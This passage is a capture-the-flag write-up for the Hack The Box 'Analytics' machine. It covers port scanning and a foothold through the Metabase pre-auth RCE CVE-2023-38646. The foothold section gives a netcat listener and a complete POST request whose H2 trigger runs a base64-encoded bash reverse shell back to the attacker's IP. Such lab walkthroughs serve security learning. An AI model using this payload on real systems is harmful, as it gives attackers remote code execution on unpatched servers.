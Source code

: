 <br>
Now that I'm able to access the website, we're going to do a default script scan. 
However, it didn't give us anything useful.

{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -oA HTB/Analytics/nmap/default_script_scan 10.10.11.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 02:11 EDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endvimhl %}

<br>
Going through the website, there's a Login page that takes us to the URL data.analytical.htb which we will also add to /etc/hosts file.

{% vimhl bash %}
10.10.11.233    analytical.htb data.analytical.htb
{% endvimhl %}

<br>

### Foothold

Viewing the source code of the login page, we see it is embedded in JSON object and using Metabase v0.46.6, and a bit of research shows us it has a vulnerability CVE-2023-38646 which is Pre-Auth RCE.
First, we'll listen to the port using `nc`.
{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9998
{% endvimhl %}

<br>
By creating this POST request, we are able to get a reverse shell.

{% vimhl bash %}
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json,
Connection: close
Content-Type: application/json
Content-Length: 522
{"details": {"details": {"advanced-options": true, "classname": "org.h2.Driver", "subname": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE2Lzk5OTggMD4mMQ==}|{base64,-d}|{bash,-i}')\n$$--=x", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token":   "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"}
{% endvimhl %}
